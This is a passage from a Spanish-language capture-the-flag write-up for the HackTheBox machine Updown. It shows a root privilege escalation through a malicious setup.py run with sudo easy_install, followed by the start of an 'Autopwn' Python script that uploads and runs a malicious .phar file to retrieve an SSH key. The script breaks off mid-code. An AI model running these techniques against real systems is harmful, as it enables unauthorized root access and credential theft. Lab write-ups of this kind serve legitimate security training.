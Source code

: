 ```console
developer@updown:/tmp/.privesc/RCE$ cat setup.py 
__import__('os').system('id')
developer@updown:/tmp/.privesc/RCE$ sudo /usr/local/bin/easy_install .
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing .
Writing /tmp/.privesc/RCE/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/.privesc/RCE/egg-dist-tmp-7uz3eh
uid=0(root) gid=0(root) groups=0(root) <--- Successful RCE!
No eggs found in /tmp/.privesc/RCE/egg-dist-tmp-7uz3eh (setup script problem?)
```

Para finalizar y aplicar todo el proceso otra vez, hice un **Autopwn** en `python` que nos devuelve una shell para ejecutar comandos:

```python
#!/usr/bin/env python3

"""
Autopwn Updown HTB Machine
--------------------------
Author: Marss
Date: Oct 21, 2022
"""

import paramiko
import requests
import signal
import sys
import threading
import time

from bs4 import BeautifulSoup
from pwn import *

# Ctrl + c (function)
def signal_handler(signum, frame): sys.exit('\n[!] User terminated.')

# Ctrl + c (signal)
signal.signal(signal.SIGINT, signal_handler)

# Main class
class Exploit:
	def __init__(self):
		self.target_url = 'http://dev.siteisup.htb'
		self.malicious_file = 'remote_code_execution.phar'

	def run(self):
		progress = log.progress('Starting attack')

		# (1) UPLOAD FILE 
		progress.status('Uploading file')

		upload_file_thread = threading.Thread(target=self.upload_file)
		upload_file_thread.start()
		
		time.sleep(3) # wait until the file has been uploaded
		log.info(f'File Uploaded: {self.malicious_file}')

		# (2) EXECUTE FILE
		progress.status('Executing file')
		
		id_rsa_output = self.execute_file()
		log.info(f'Payload executed')

```